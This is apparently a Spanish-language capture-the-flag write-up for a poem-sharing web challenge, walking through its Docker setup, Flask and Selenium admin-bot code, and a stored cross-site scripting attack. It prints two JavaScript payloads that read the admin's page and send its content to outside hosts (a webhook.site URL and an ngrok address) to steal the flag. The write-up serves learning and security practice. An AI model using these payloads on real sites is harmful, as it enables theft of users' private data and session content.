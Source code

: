 # batalla_de_gallinas

Lo primero que hago es montar el reto en local. Es importante este paso porque como veo que esta montando varios conetenedores docker, es importante saber como funcionan y como están interconectados entre sí. 

Tras analizar el `docker.compose.yml` vemos que se esta generando una base de datos con Mariadb, y otro el cual se corresponde a la web. Ambos contenedores están conectados entre si. También contiene otros tres contenedores: `selenium-chrome`, `selenium-hub`, y `redis`. El más importante es `selenium-chrome`, más adelate veremos porque.

En la web nos encontramos con una página de login en la cual nos deja registrarnos con los parametros `user`, `about_me`, y `password`.

![image.png](images/image_01.png)

Si intentamos registarnos con el usuario `admin` no nos deja, porque ya existe ese usuario. 

Nos creamos un usuario, y vemos que podemos subir un poema, y hacer que un administrador lo revise.

![image.png](images/image_02.png)

Con burpsuit, podemos analizar que hace la web cuando le damos al boton `Request poem review`, y este lo que hace es pasar los siguientes parámetros a `http://0.0.0.0:12105/visit`

- `Cookie: session=…`
- `csrf_tocken=…`

![image.png](images/image_03.png)

Analizando el código de la web (el archivo `app.py`):

```python
@app.route('/visit/', methods=['POST'])
@login_required
def doVisit():
    ip = request.remote_addr
    last_timestamp = last_visit.get(ip)
    current_timestamp = time()
    if last_timestamp and (current_timestamp - last_timestamp < VISIT_COOLDOWN):
        flash(f"Current user recently asked for a visit, please wait at least {VISIT_COOLDOWN} seconds between visits", 'warning')
        app.logger.info(f"Rejected enqueue {ip}, current: {current_timestamp}, last {last_timestamp}")
    else:
        last_visit[ip] = current_timestamp
        visit_url = f"http://babypoems:8080/poem/?username={current_user.get_id()}"
        q.enqueue(visit_user_page, visit_url, admin_password)
        flash("Enqueued successfully, an admin will review your poem soon", 'success')
        app.logger.info(f"Enqueued visit from {ip} to {visit_url}, admin pw: {admin_password}")

    return redirect(url_for('poem'))
```

Vemos que cuando nos deja hacer la petición se visita la siguiente URL con el parametro `username=valor` siendo el valor, el id de usuario. Si intentamos nosotros como usuario hacer la petición a la pagina con algun parametro: `http://0.0.0.0:12105/poem/?username=admin` nos salta un banner diciendo que solo los administradores pueden realizar esta opción.

---

Vamos a abordar la parte de la base de datos. Al iniciar el contenedor docker, se establece un contenedor que corresponderá a la base de datos (en mariadb). Si nos conectamos al contenedor, con: `docker exec -it <nombre_contenedor> /bin/bash`, podemos autenticarnos en mariadb con el usuario `babypoemsdbuser` y su contraseña `babypoemsdbpassword`. Listando las databases existentes (`SHOW DATABASES;`) nos conectamos a babypoemsdb (`USE babypoemsdb;`). Estando aquí, listamos todos los usuarios y contraseñas mediante la querry `SELECT * FROM user;`

![Screenshot 2024-11-21 at 12.14.13.png](images/image_04.png)

Vemos nuestro usuario y el usuario administrador. Pero de esta manera no conseguimos nada. Teniendo en cuenta que mariadb es bastante seguro, no vamos a intentar hacer una inyección SQL.

---

Otra opción que se nos puede ocurrir es abordar un secuestro de Cookies. Queremos obtener la cookie del usuario admin, para así secuestrar su sesión y poder ver el campo de `aboutme`. El servidor tiene configurado una flag en las cookies, `HttpOnly` está activado. Esta flag significa que desde javascript no vamos a poder leer las cookies del usuario, por lo tanto buscamos otro punto de entrada.

Revisando los archivos de la web, vemos un archivo llamado `visitor.py` el cual se ejecuta cuando submietamos el poema para que lo revise un administrador.

```python
from time import sleep
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys

def visit_user_page(url, adminpwd):
    options = webdriver.ChromeOptions()
    driver = webdriver.Remote(
         command_executor="http://selenium-hub:4444",
         options=options
    )
    try:
        print(f"Visiting {url}")
        driver.implicitly_wait(5)  # 5 sec timeout for finding elements
        driver.get("http://babypoems:8080/login")
        login_f = driver.find_element(By.ID, "usernameinput")
        login_f.send_keys("admin")
        pw_f = driver.find_element(By.ID, "passwordinput")
        pw_f.send_keys(adminpwd)
        pw_f.send_keys(Keys.ENTER)
        driver.get(url)
        sleep(5)  # Admire during 5 seconds how beautiful the user poem is
    finally:
        driver.quit()
```

Este lo que está haciendo es desde el contenedor `selenium-chrome` usar un navegador que se autentique con nuestro usuario, visualizará el problema el problema durante 5 segundos y se saldrá.

Cada vez que submiteamos el `js` que ponemos en el poema, se ejecutará cada vez que se visite a ese usuario. Este es un buen punto de entrada a la hora de poder obtener la flag, que si lo recordamos, está en el campo “About me” del usuario admin.

Se me ocurre que si conseguimos que el bot cargue la pagina correspondiente a el administrador: `https://…/poem/?username=admin` se guarde el `html` y despues enviárnoslo a un servidor que controlemos nosotros por el método POST, podremos obtener el campo “About me” del administrador. Este sería el código en `javascript`:

```python
<script>
fetch('https://3b51a408a705-webth-vulnerable.numa.host/poem/?username=admin')
.then(response => response.text())
.then(data => {

    const inputValue = document.querySelector("input").value;
    

    const serverUrl = 'https://webhook.site/b52153d3-fbf8-457f-a2eb-6b5d24d6735b';
    const fullUrl = `${serverUrl}?data=${encodeURIComponent(inputValue)}`;
    

    fetch(fullUrl);
});
</script>
```

Con este script vemos que el admin esta visualizando correctamente nuestro poema, porque estamos renderizando el HTML, y pasandolo a un servidor controlado.

![Screenshot 2024-12-02 at 09.55.03.png](images/image_05.png)

Realmente, lo que queremos hacer es en vez de cargar el HTML, debemos cargar la cookie de admin, porque ahora mismo el bot, está como administrador porque puede acceder a la web `http://localhost:12105/poem/?username=a35`

Al hacer las peticiones, no se nos carga de manera correcta pues siemrpe nos cargará nuestro usuario. Al final llegamos a la conclusión de que no hay que decirle al bot que visite `/poem/?username=admin`. Por lo tanto nos quedará el script de la siguiente manera:

```python
<script>

    document.addEventListener('DOMContentLoaded', () => {

        const htmlContent = document.documentElement.outerHTML;

        const serverUrl = 'https://ab4a-193-147-77-9.ngrok-free.app';

        fetch(serverUrl, {
            method: 'POST',
            headers: {
                'Content-Type': 'text/plain',
            },
            body: htmlContent
        }).then(() => {
            console.log("Datos enviados al servidor con éxito.");
        }).catch(error => {
            console.error("Error al enviar los datos:", error);
        });
    });
</script>
```

Con esto conseguimos ver cual es la flag.

![image.png](images/image_06.png)

`URJC{4qu3l_h4ck3r_d3_l4s_4nd3s}`
